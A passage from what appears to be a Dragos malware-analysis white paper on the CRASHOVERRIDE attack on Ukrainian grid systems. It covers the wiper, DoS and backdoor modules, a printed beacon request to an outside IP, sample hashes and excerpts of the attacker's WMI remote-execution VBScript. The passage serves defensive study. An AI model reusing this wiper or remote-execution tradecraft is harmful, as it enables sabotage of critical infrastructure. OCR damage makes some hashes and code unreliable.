- 0 stVal

Once this is complete, respondinq items are logged, then "ctlOperOn" and "ctlSelOn" are set (irrespective of their status during enumeration). Next, the module turns the same items off by setting "ctlOperOff" and "ctlSelOff." This corresponds to opening breakers or turning a selected pathway "off", brining functionality in line with previously-discussed modules.

#### Hybrid Payload: OPC + 61850

ELECTRUM deploved a binary, named "imapi.dll", that combines functionality for both the 61850 and OPC modules detailed above. As displayed in Figure 10. the "Crash" export creates two threads in sequence: the first for a routine duplicating OPC module functionality, the second essentially replicating the 61850 modules.

Of note, this slightly more complex sample features a later execution time for effects delivery than others observed thus far: 20 December 2016 0630 UTC. This corresponds to the "second round" of attacks after the initial timing of around midnight 17 December 2016. While this may seem a follow-on attack, compilation timestamps preserved as debuq directory artifacts indicate that imapi was compiled before the initial outages and was therefore a pre-planned attack to occur at a

| 10005310 55 | push | ebp |  |
| --- | --- | --- | --- |
| 10005311 8B EC | mov | ebp. esp |  |
| 40005313 83 EC 08 | sub | esp. 8 |  |
| 10005316 56 | push | esi |  |
| 10005317 8B 35 34 A0 02 10 | mov | esi, ds:CreateThread |  |
| 1000531D 6A 00 | push | રી | ; lpThreadId |
| 1000531F 6A 00 | push | ર | ; dwCreationFlags |
| 10005321 FF 75 08 | push |  | [ebp+lpParameter] ; lpParameter |
| 10005324 68 70 25 00 10 | push | offset StartAddress ; 1pStartAddress |  |
| 10005329 6A 00 | Dush | રા | ; dwStackSize |
| 1000532B 6A 00 | Dush | 5 | : lpThreadAttributes |
| 1000532D FF D6 | call | esi ; CreateThread |  |
| 1000532F 6A 00 | push | ઠિ | : lpThreadId |
| 10005331 6A 00 | push | S | : dwCreationFlags |
| 10005333 6A 00 | push | S | : IpParameter |
| 10005335 68 50 40 00 10 | push | offset sub 10004050 ; IpStartAddress |  |
| 1000533A 6A 00 | Dush | ઠિ | : dwStackSize |
| 1000533C 6A 00 | push | 5 | : loThreadAttributes |
| 1000533E 89 45 F8 | mov | [ebp+hThread], eax |  |
| 10005341 FF D6 | call | esi ; CreateThread |  |
| 10005343 8B 35 14 40 02 10 | mov | esi, ds:SetThreadPriority |  |
| 10005349 6A 02 | push | 2 | : nPriority |
| 1000534B FF 75 F8 | push | [ebp+hThread] ; hThread |  |
| 1000534E 89 45 FC | mov | [ebp+var 4], eax |  |
| 10005351 FF D6 | call | esi ; SetThreadPriority |  |
| 10005353 6A 02 | push | 2 | : nPriority |
| 10005355 FF 75 FC | push | [ebp+var 4] = ; hThread |  |
| 10005358 FF D6 | call | esi ; SetThreadPriority |  |
| 1000535A 6A FF | push | OFFFFFFFFFFFFF | ; dwMilliseconds |
| 1000535C 6A 01 | push | 1 | : bWaitAll |
| 1000535E 8D 45 F8 | lea | eax. [ebp+hThread] |  |
| 10005361 50 | push | eax | : IpHandles |
| 10005362 6A 02 | push | 2 | : nCount |
| 10005364 FF 15 58 A0 02 10 | call | ds:WaitForMultipleObjects |  |

Figure 10: IMAPI Sequential Thread Creation

later time. One possibility, based on the functionality of the two protocols, is that the paired attack is designed to overcome environmental fail-safes: notably, switchgear refusing to open if circuit breakers are not open to prevent arc. Combining the two payloads allows for OPC to target breakers (and potentially switchqear as well) while 61850 impacts switchgear. Combined, this would overcome operational failsafes to deliver an electric distribution impact.

©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 14 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

### Wiper Module

The destructive or "wiper" module represents the last stage of the CRASHOVERRIDE attack. Following a two-hour timer (in samples available for analysis), the launcher executable aqain looks for the exported "Crash" function, but this time in a separate, hard-coded file that must be co-located in the specified working directory, "haslo.dat".

The wiper consists of three stages:

- 1. Overwrite system service registry entries to null values to render system unbootable.
- 2. Remove files relating to ICS operations to impede recovery and system restoration.
- 3. Terminate system processes to cause a crash and system shutdown.

First, the wiper moves to make the system unbootable by manipulating services listed in the following registry hive:

SYSTEM\CurrentControlSet\Services

For each system service, the image path is cleared. On system restart, the machine will be unable to load system services, resulting in a failure to boot the OS.16

Next, the wiper enumerates the infected machine for all drives C-Z except "V:\". The wiper then looks for various generic file formats (e.q., ".exe", ".zip", ".tar") as well as files with the following more specific extensions for deletion:

| File/Extension | Assessed Purpose |
| --- | --- |
| SYS_BASCOM.COM | ABB SYS600 Base System Configuration File |
| *.pcmp | ABB PCM600 Project File |
| *.pcmI | ABB PCM600 IEC File |
| *.pcmt | ABB PCM600 Template IED File |
| *.pl | Programmable Logic File (Vendor Neutral) |
| *pat | PLC Archive File (Vendor Neutral) |
| *.SCl | Substation Configuration Language (IEC-61850) |
| *.cid | Configured IED Description |
| *.SCO | Substation Configuration Description (IEC-61850) |
| *.Xrt | Cross Reference File used in ABB MicroSCADA |
| * . V | Possibly AutoCAD |
| *.trc | Trace File Type Specified in OPC DA |
| *.cin | ABB MicroSCADA Specific File |
| *.INI | MicroSCADA Documentation Uses INI Files Extensively |
| *.prj | ABB Control Builder |
| *.mdf | Database Format |
| *.ldf | Database Format |

I6 In some respects, this behavior is functionally (in terms of outcome) equivalent to the service wiping function used in the OlympicDestroyer event (see Olympic Destroyer – Talos

I However, the two are implemented differently, thus not indicating any definitive link between the entities responsible.

|
|  |

#### Table 1: Targeted File Extensions

Overall, the filetypes referenced are for ABB equipment, specifically the ABB MicroSCADA product line.17 Essentially, the wiper looks to eliminate files relating to grid operations to inhibit service restoration and recovery based on previously-saved. known-good configurations.

Finally, the wiper proceeds to terminate system processes to force a system crash:

| audiodq.exe | lsm.exe | taskhost.exe |
| --- | --- | --- |
|  | services.exe | wininit.exe |
| conhost.exe | shutdown.exe | winlogon.exe |
| csrss.exe | smss.exe | wuauclt.exe |
| dwm.exe | spoolss.exe |  |
| explorer.exe | spoolsv.exe |  |
| lsass.exe | svchost.exe |  |

At this stage, the impacted system – a device sitting "one hop" away from the target ICS equipment for the specified impact module – is shutdown, with immediate system restoration impossible without recourse to boot disks and non-standard manipulation of the impacted host. Furthermore, unless backups of relevant files are kept elsewhere in the network, precise ICS and SCADA service restoration is impossible due to the loss of configuration files.

## Primary Backdoor Module

ESET and initial Dragos reporting all identified a primary backdoor initiating events for the CRASHOVERRIDE attack. As indicated above, subsequent analysis based on newly-available data from the event indicates that this backdoor was not necessary for CRASHOVERRIDE and based on recovered forensic artifacts may not have been used to execute the attacks.

Admittedly, even with a far greater corpus of data than what was available in June 2017 – when CRASHOVERRIDE was first publicly disclosed – there remain gaps, therefore it is possible other aspects of the attack relied on this custom backdoor. Nonetheless, a review of operations and software functionality indicate that this component – which is also the component most resembling traditional malware and easiest to detect via traditional security measures – is not a necessary component for executing a CRASHOVERRIDE-like event.

As this module has already received extensive coverage and analysis in other publications – namely ESET's Industroyer analysis and Dragos' CRASHOVERRIDE white paper - this will not receive further examination in this space.

## Impeding Recovery

In addition to the wiper module described previously, ELECTRUM also deployed a denial of service capability leveraging a previously disclosed and patched vulnerability in Siemens SIPROTEC equipment,

<sup>17</sup> MicroSCADA Pro – ABB (

CVE-2015-5374.18 The vulnerability was patched in 2015, still relatively soon for device patching in ICS environments considering the attack took place in late 2016. The SIPROTEC device itself plays supporting and enabling roles in IEC-61850 communications and SCADA control, making it a potentially effective tarqet to further disrupt operations during the attack by inhibiting operator control.

Unfortunately, in designing this software, appropriately named "dos.exe", the attacker successfully implemented the specially-crafted traffic to UDP 50000 that would trigger a denial of service condition but failed in implementing byte conversion for IP addresses when creating sockets. As a result, the module sends traffic to invalid, incorrect IP addresses. For example, if targeting 192.1.2.3, the created socket would send traffic to 3.2.1.192.

As implemented, the "dos.exe" module includes a hard-coded list of IP addresses for attack. As a result, even if this error is caught at run-time, the adversary could not "fudqe" execution by reading in a modified list of "reversed" IP addresses. Thus this module is effectively useless for the attack.

### Alternate Backdoor

Finally, an additional backdoor component was discovered in the intrusion and originally noted by ESET in mid-2017. The backdoor itself is a modified copy of Windows Notepad. Within the environment, the file – based on exif and metadata – appears to be a legitimate, albeit older, copy of Notepad:

| File Size | : 72 kB |
| --- | --- |
| File Type | : Win32 EXE |
| File Type Extension | : exe |
| MIME Type | : application/octet-stream |
| Machine Type | : Intel 386 or later, and compatibles |
| Time Stamp | : 2008:04:13 12:35:51-06:00 |
| PE Type | : PE32 |
| Subsystem | : Windows GUI |
| File OS | : Windows NT 32-bit |
| Object File Type | : Executable application |
| Lanquage Code | : English (U.S.) |
| Company Name | : Microsoft Corporation |
| File Description | : Notepad |
| File Version | : 5.1.2600.5512 (xpsp.080413-2105) |
| Internal Name | : Notepad |
| Legal Copyright | : © Microsoft Corporation. All rights |
| reserved. |  |
| Original File Name | : NOTEPAD.EXE |
| Product Name | : Microsoft® Windows® Operating System |
| Product Version | : 5.1.2600.5512 |

18 Siemens SIPROTEC Denial-of-Service Vulnerability - ICS-CERT (

However, a review of plaintext strings immediately indicates something altered in the file. In addition to obfuscated program sections, the followinq observables appear:

> RegisterPenApp notepad.chm hhctrl.ocx CLSID\{ADB880A6-D8FF-11CF-9377-00AA003B7A11}\InprocServer32

Further research identifies samples exhibiting these static characteristics from January 2016 (nearly a year before CRASHOVERRIDE) to the present. The programs themselves all launch a call-out to a hardcoded, but obfuscated, network address. Unfortunately, the exact purpose of this callout is not completely clear at present. The observed traffic is likely a call-out beacon to initiate connection back to the executing host.

Several examples are evident in CRASHOVERRIDE data. One sample, named "csvd.exe", produces the following call-out:

> GET /8C7SW HTTP/1.1 Cache-Control: no-cache Connection: Keep-Alive Praqma: no-cache Host: 188.42.253.43:8820

Other examples recovered "in the wild" include beacons to private addresses, public addresses with a destination port of TCP 4444 (potentially indicative of a Meterpreter payload), and other variations. At present, lacking complete traffic flows and additional context, this item remains somewhat mysterious in terms of ultimate, complete functionality.

The IP address in question is unremarkable, belonging to a Singapore-based hosting provider with no associated domains. This is potentially adversary-owned infrastructure but more likely represents legitimate network space compromised by the adversary for first-hop communications.

At present it is not certain if this tool represents an ELECTRUM-exclusive item or the repurposing of a common backdoor by the group for the CRASHOVERRIDE attack. Work on this item continues.

# Context and Mitigation

#### ELECTRUM's CRASHOVERRIDE attack represents both a sophisticated event (in terms of designing ICS-specific malicious payloads) and an example of fairly standard intrusion activities such as "living off the land".

Reviewing the entirety of the CRASHOVERRIDE event – from initial intrusion through ICS-focused physical impact – several interesting items emerge:

- o Except for the final ICS-focused payloads, almost no malware was used in the attack. The primary backdoor mechanism, discussed earlier, may not have even been used based on available information, and other malicious software variants represent publicly-available frameworks such as Mimikatz.
©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 18 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

- Network intrusion, information gathering, and pivoting all relied on credential capture and reuse o and leveraging legitimate system tools for execution.
- o The timeframe of the overall intrusion is measured in months, but the shift to ICS impacts took place in a matter of weeks beginning in mid-December, potentially fueled by earlier reconnaissance.

Based on all of the above items, ELECTRUM's CRASHOVERRIDE attack represents both a sophisticated event (in terms of designing ICS-specific malicious payloads) and an example of fairly standard intrusion activities such as "living off the land".19 This mixed set of capabilities – from relatively advanced to commodity, "pentester 101" – reveal an interesting aspect of ELECTRUM and ICS intrusion events in general: while the ultimate impact scenario generally requires some specialized knowledge, actual network intrusion requires no especially advanced set of skills.

From a detection and response standpoint, especially when considered across the kill chain (see Figure 2 in Background), identifying seemingly "commodity" tactics within the context of the ICS environment is incredibly valuable. Typical binary defense focuses on antivirus – yet antivirus is largely designed to capture items that corrupt or subvert local or remote Windows processes and not programs designed to deliver ICS impacts. In the case of CRASHOVERRIDE. the only aspects that would fall under typical antivirus detection are the Mimikatz variant and the "primary" backdoor (which prior analysis indicates is not even a necessary component for the attack). Instead, identifying authentication information within the network, binary movement between IT and ICS and within ICS, and system alterations on critical hosts controlling ICS equipment all would serve to detect - and form the foundation for mitiqating - a CRASHOVERRIDE-type attack. Essentially, defenders need to tune detections and response from ITcentric approaches to ICS-specific capabilities, including capturing malicious behaviors – such as the rampant authentication and remote process activity exhibited by ELECTRUM – indicative of a "malwareless" compromise event.

Unfortunately, the state of the modern ICS environment typically lacks the level of visibility – definitely on host, but also to a certain extent in network – that would allow such actions to be identified and tracked. Only by increasing visibility then orienting detection and monitoring toward adversary behaviors will ICS defenders be able to effectively protect against the next CRASHOVERRIDE attack. Given the peculiars of ICS intrusions – from "livinq off the land" for standard Windows system compromise to bespoke ICS malware for ultimate effects – traditional, Windows-centric security solutions may not be the answer. Instead. ICS owners and operators will need to embrace the challenge provided by groups such as ELECTRUM and learn their environment, increase visibility, and determine at what point the merely "anomalous" becomes malicious.

In this fashion, defenders can defend not merely against a CRASHOVERRIDE variant, but against entire classes of malicious activity. By focusing on necessary adversary actions – such as credential capture and binary movement for final effects – defenders can create necessary traffic and detection "choke points" to monitor for and respond to such required activities. While this will not be easy, such a robust approach represents the only sure means of securing the ICS environment moving forward.

<sup>19</sup> Although used elsewhere, a term best explained in Symantec's "Living Off the Land and Fileless Attack Techniques" (

<sup>©2018</sup> Dragos. Inc. All rights reserved. [Protected] Non-confidential content. October 12. 2018 19 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

# APPENDICES

# APPENDIX A - List of Sample Hashes

The following list includes recovered sample hashes from CRASHOVERRIDE, including binaries and scripts.

| Name | SHA256 | Function |
| --- | --- | --- |
| 101_copy.bat | a95f6d43e62a5cfb4e95667df9b04d07b60d103b36f4cff12c07e7c2dab88a98 | Runs ufn.vbs and sqlc.vbs, |
|  |  | Copies 101 Payloads to |
|  |  | Specified Hosts |
| 104.bat | 07d5d5ba8cd17efab2ebf3b76cb6b61825249518c11c3910ceb6473e0efb3deb | Runs sqlc.vbs, Configures |
|  |  | ImapiService |
| 104.dll | 7907dd95c1d36cf3dc842a1bd804f0db511a0f68f4b3d382c23a3c974a383cad | 104 Effects Module |
| 104 copy.bat | 693c631f1673bd61135080e9b4759342c5835d20231f6f4f7b55117fda111e4f | Runs ufn.vbs and sqlc.vbs, Copies 104 Payloads to |
|  |  | Specified Hosts |
| 104_copy.bat | a95f6d43e62a5cfb4e95667df9b04d07b60d103b36f4cff12c07e7c2dab88a98 | Runs ufn.vbs and sqlc.vbs, Copies 104 Payloads to |
|  |  | Specified Hosts |
| 61850.dll | 4e7d2b269088c1575a31668d86de95fd3dde6caa88051d7ec110f7f150058789 | 6 1850 Effects Module - DLL Variant |
| 61850.exe | 55e7471ad841bd8a110818760ea89af3bb456493f0798a54ce3b8e7b790afd0a | 6 1850 Effects Module - EXE |
|  |  | Variant |
| alg.exe | 3e3ab9674142dec46ce389e9e759b6484e847f5c1e1fc682fc638fc837c13571 | Primary Backdoor |
| avtask.exe | 37d54e3d5e8b838f366b9c202f75fa264611a12444e62ae759c31a0d041aa6e4 | Primary Backdoor |
| avtask.exe | 7e96849c69263e0125419a3fbb2547050329b7 189db599d8 136650 17 18 18bd8 1 | Primary Backdoor |
| avtask2.exe | 4 1658472df4074a0a2a2298ba3f17e0b17 112fed99e495bf34dac 138d6f7b247 | Primary Backdoor |
| c.exe | 502402f8568359645d50f1d6e58ab927f05702f6220b60767897b3912b761b99 | Primary Backdoor |
| csvd.exe | f6e62b1d75d91171ab30e8985189ea5aacd947c887222fdb58acbc2db2542f64 | Backdoor NOTEPAD Variant |
| csvf.exe | 767b078645baef34cfb366a41df8fe65bcce597c2bc9c08cae063d287f7a8011 | Backdoor NOTEPAD Variant |
| csvnpr.exe | 9860c3d30233c7f1c6631caefa2b6632a01b2b729909bc0dd894c5b418b4eb1b | Backdoor NOTEPAD Variant |
| defragsvc.exe | 21c1fdd6cfd8ec3ffe3e922f944424b543643dbdab99fa731556f8805b0d5561 | Launcher Module |
| dos.exe |  |  |
|  | 4587ccfecc9a1ff5c5538a3475409ca1687d304bcde252077a119c436296857b | Siemens SIPROTEC DoS |
|  |  | Module |
| ep.exe | 3ca252fb405c83cceea25041c3f1c01bead8f1afe0144f8cdee795bb868a903d | Primary Backdoor |
| haslo.dat | 018eb62e174efdcdb3af011d34b0bf2284ed1a803718fba6edffe5bc0b446b81 | Destructive Module |
| haslo.exe | ad23c7930dae02de1ea3c6836091b5fb3c62a89bf2bcfb83b4b39ede15904910 | Destructive Module |
| ilaunchr.exe | c57e390d4c1ba116a28fe618d407395d261f25c2901d1fe68f420fb47a26f444 | Primary Backdoor |
| imapi.dll | 12ba9887d3007b0a0713d9f1973e1176bd33eccb017b5a7dba166c7c172151e9 | Hybrid 61850 and OPC |
|  |  | Effects Module |
| imapi.exe | 56ae7705ffcd56e74e5aecb0e43f17d510c2eaaddc7356f991c0db1daf32a641 | Hybrid 61850 and OPC |
|  |  | Effects Module Launcher |
| ImapiService.exe | 7cc9ac6383437dd96161b93b017500a22a2c8d05f58778b9b9fce8ea73304546 | Launcher Module |
| ld.exe | 13a71a050d20aaad43ef78d77ff22d636475b2ef8e4918731ff64d162287c480 | UPX-Packed Credential |
|  |  | Dumper Using Extensive |
|  |  | Mimikatz Source Code |
| mm.exe | 286c63d24fe9259bb6a758ce86e48c7f9094304ce4a32054641923a8cb4eab3c | UPX-Packed Mimikatz |
| npadpr.exe | 376c0608820598f2f20666a82e1d801fce347233e2051010fbcf43c8278220dc | Backdoor NOTEPAD Variant |
| орс.ехе | 156bd34d7 13d0c8419a5da040b3c2dd48c4c6b00d8a47698e4 12db16b1ffac0f | Stand- Alone Module |
| pa.vbs | fb5bbea0f1acfcf123979e4c615d54474c4f079276ee3828f5b8613bb3bbdf26 | System Recon |
| rm.vbs | fb5bbea0f1acfcf123979e4c615d54474c4f079276ee3828f5b8613bb3bbdf26 | System Recon |
| swprv.exe | dcb7d2fc46f61d5522e005ac66f3f0661e2d5284d5a3f8b3a0c8b4050d8397a7 | Variant of Primary Backdoor |
| tiering.exe | 9a12493af09b0711edb0d6797fb195c64f3ca65437dd6274b171ebd22558172c | Backdoor NOTEPAD Variant |
| tiersvc.exe | ecaf150e087ddff0ec6463c92f7f6cca23cc4fd30fe34c10b3cb7c2a6d135c77 | Primary Backdoor |
| ws.exe | 6d707e647427f1ff4a7a9420188a8831f433ad8c5325dc8b8cc6fc5e7fff6f47 | Primary Backdoor |

©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 20 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 21 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

### APPENDIX B - Remote Execution and Survey Script

As the script is lengthy, the below are selections from the file "remote.vbs" to show the most relevant portions of the script:

```
On Error Resume Next
Set WshShell = WScript.CreateObject("WScript.Shell")
Set WshNetwork = WScript.CreateObject("WScript.Network")
Set FSO = WScript.CreateObject("Scripting.FileSystemObject")
Dim objSWbemLocator
Dim objSWbemServices
<BREAK>
Function RunRemoteProcess(Command)
 Set objStartup = objSWbemServices.Get("Win32 ProcessStartup")
 Set objConfiq = objStartup.SpawnInstance 
 objConfig.ShowWindow = 0
    Set objProcess = objSWbemServices.Get("Win32 Process")
 strCmd = "cmd.exe /c " & Command & " >> " & GetReportFile()
    intReturn = objProcess.Create(strCmd, Null, objConfig, intProcessID)
 If intReturn <> 0 Then
   Wscript.Echo "Process could not be created." & _
       vbNewLine & "Command line: " & strCmd &  
        vbNewLine & "Return value: " & intReturn
       RunRemoteProcess = 2
       Exit Function
 End If
 Set WaitProcesses = objSWbemServices.ExecNotificationQuery("Select * From
  InstanceDeletionEvent Within 1 Where TargetInstance ISA 'Win32_Process'")
 Do Until i = 1
       Set objLatestProcess = WaitProcesses.NextEvent
       If objLatestProcess.TargetInstance.ProcessID = intProcessID Then
       i = 1
       End If
 Loop 
 RunRemoteProcess = 0
End Function
<BREAK>
Function ConnectToServer(RemoteMachine, Username, Password)
 Set objSWbemLocator = CreateObject("WbemScripting.SWbemLocator")
    Set objSWbemServices = objSWbemLocator.ConnectServer(RemoteMachine,
"root\CIMV2", Username, Password)
   If Err.Number <> 0 Then
        Wscript.StdOut.Write "Error: " & Err.Description
       ConnectToServer = 1
```
©2018 Dragos, Inc. All rights reserved. [Protected] Non-confidential content. October 12, 2018 22 Anatomy of an Attack: Detecting and Defeating CRASHOVERRIDE originally presented at Virusbulletin on October 4th, 2018: 

```
Exit Function
    End If
 ConnectToServer = 0
 Set colItems = objSWbemServices.ExecQuery("Select * From
Win32 OperatingSystem")
 For Each objItem in colItems
       Header = vbNullString
       Header = Header & objItem.Caption & objItem.CSDVersion & vbCrLF
       Header = Header &  "CodeSet: " & objItem.CodeSet & vbCrLF
 Next
 Wscript.StdOut.Write Header
End Function
```
